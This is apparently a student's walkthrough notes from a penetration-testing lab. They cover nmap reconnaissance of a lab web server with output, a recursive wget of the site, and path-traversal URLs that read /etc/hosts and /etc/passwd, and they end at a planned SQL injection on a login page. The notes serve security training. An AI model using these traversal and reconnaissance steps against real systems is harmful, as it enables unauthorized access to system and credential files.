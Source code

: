 Prior Approvals: OSINT through publicly available resources. Scrape appropriate web content that will provide operational data. Testing of found credentials. NOT approved to change routing or destroy data.

Data is only encoded into base64

10.50 assigned. -> 10.50.29.144 (public facing) 

### 1. PublicFacingWebsite - 001 ###

#### Perform Reconnaissance  ####

Step 1. student@lin-ops:~$ `nmap 10.50.29.144`

    Starting Nmap 7.60 ( https://nmap.org ) at 2024-01-17 13:51 UTC
    Nmap scan report for 10.50.29.144
    Host is up (0.0043s latency).
    Not shown: 998 filtered ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    Nmap done: 1 IP address (1 host up) scanned in 4.84 seconds

Step 2: student@lin-ops:~$ `nmap -Pn -sT 10.50.29.144 -p 80 --script http-enum.nse`

    Starting Nmap 7.60 ( https://nmap.org ) at 2024-01-17 13:54 UTC
    Nmap scan report for 10.50.29.144
    Host is up (0.013s latency).

    PORT   STATE SERVICE
    80/tcp open  http
    | http-enum: 
    |   /login.php: Possible admin folder
    |   /login.html: Possible admin folder
    |   /img/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
    |_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

    Nmap done: 1 IP address (1 host up) scanned in 0.52 seconds

Step 3. Open reminna and login to your linops and open firefox on there. Enter the ip address 10.50.29.144 and see what's on there.... 

Step 4. wget on the `wget -r http://10.50.29.144:80` to download all the files for this address

Do the statements below where there are search pages..
or ... http://10.50.29.144/getcareers.php?myfile=../../../../../../../../etc/hosts
or ... http://10.50.29.144/getcareers.php?myfile=../../../../../../../../etc/passwd

        root:x:0:0:root:/root:/bin/bash
        user2:.....:/bin/sh -> means the user2 can run bash commands 


Step 5. Check /login.html -> gives a login page. Lets try to sql inject it
